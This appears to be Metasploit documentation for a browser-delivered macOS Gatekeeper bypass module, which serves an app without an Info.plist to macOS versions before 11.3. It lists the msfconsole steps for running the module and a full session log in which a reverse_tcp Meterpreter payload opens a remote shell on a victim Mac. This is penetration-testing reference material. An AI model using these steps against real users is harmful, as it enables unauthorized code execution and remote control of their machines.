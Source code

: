 ## Vulnerable Application

This module serves an OSX app (as a zip) that contains no Info.plist, which
bypasses gatekeeper in macOS < 11.3.

If the user visits the site on Safari, the zip file is automatically extracted,
and clicking on the downloaded file will automatically launch the payload.
If the user visits the site in another browser, the user must click once to unzip
the app, and click again in order to execute the payload.

## Verification Steps

1. Start `msfconsole`
1. `use exploit/osx/browser/osx_gatekeeper_bypass`
1. `set LHOST <tab>`
1. `set SRVHOST <tab>`
1. `exploit`
1. Visit the URL on a vulnerable version of macOS

## Options

  No options

## Scenarios

### macOS Catalina 10.15.6

```
msf6 > use exploit/osx/browser/osx_gatekeeper_bypass
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set srvhost 192.168.37.1
srvhost => 192.168.37.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > options

Module options (exploit/osx/browser/osx_gatekeeper_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   APP_NAME  app              no        The application name (Default: app)
   SRVHOST   192.168.37.1     yes       The local host or network interface to listen on. This must be an a
                                        ddress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)


Payload options (osx/x64/meterpreter/reverse_tcp):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   LHOST                  192.168.37.1     yes       The listen address (an interface may be specified)
   LPORT                  4444             yes       The listen port
   MeterpreterDebugLevel  0                yes       Set debug level for meterpreter 0-3 (Default output is
                                                      strerr)


Exploit target:

   Id  Name
   --  ----
   0   macOS x64 (Native Payload)


msf6 exploit(osx/browser/osx_gatekeeper_bypass) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.37.1:4444
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > [*] Using URL: http://192.168.37.1:8080/q670M8fEMu
[*] Server started.
[*] 192.168.37.132   osx_gatekeeper_bypass - Request /q670M8fEMu from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15
[+] 192.168.37.132   osx_gatekeeper_bypass - macOS version 10.15.6 is vulnerable
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (810096 bytes) to 192.168.37.132
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.132:49380) at 2021-04-29 15:21:38 -0500

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions

Active sessions
===============

  Id  Name  Type                 Information                           Connection
  --  ----  ----                 -----------                           ----------
  1         meterpreter x64/osx  space @ spaces-Mac.local (uid=501, g  192.168.37.1:4444 -> 192.168.37.132:
                                 id=20, euid=501, egid=20) @ spaces-M  49380 (192.168.37.132)
                                 ac.local

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: space @ spaces-Mac.local (uid=501, gid=20, euid=501, egid=20)
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           : macOS Catalina (macOS 10.15.6)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```

